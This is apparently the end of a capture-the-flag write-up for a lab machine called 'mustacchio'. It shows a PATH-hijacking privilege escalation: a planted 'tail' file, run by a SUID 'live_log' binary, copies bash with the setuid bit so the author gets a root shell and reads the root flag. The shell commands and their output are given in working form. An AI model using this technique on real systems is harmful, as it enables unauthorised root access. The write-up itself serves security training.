 ```bash

barry@mustacchio:~$ chmod +x tail

```

> I replace the path of the environment variable $PATH and write the path to my **tail** file at the beginning:

```bash

barry@mustacchio:~$ export PATH=/home/barry:$PATH

barry@mustacchio:~$ echo $PATH

/home/barry:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

```

> I run **live_log** . When executed the program will execute my **tail** file first with root privileges then
> copy **/bin/bash** to **/tmp** directory and set the **setuid** flag to preserve root privileges.

![root_bash](./screenshots/root_bash.png)

> I run the copied shell with the **-p** flag to save all settings with root privileges
> I get the root flag.

```bash

barry@mustacchio:~$ cd /tmp/
barry@mustacchio:/tmp$ ./privshell -p
privshell-4.3# id
uid=1003(barry) gid=1003(barry) euid=0(root) egid=0(root) groups=0(root),1003(barry)
privshell-4.3# cat /root/root.txt 
3223581420d906c4dd1a5f9b530393a5
privshell-4.3# 

```
> root flag - ```3223581420d906c4dd1a5f9b530393a5```

---

## Conclusion

> The machine was fully compromised by chaining together a leaked backup file, an XXE vulnerability, and a misconfigured SUID binary, leading to root access.
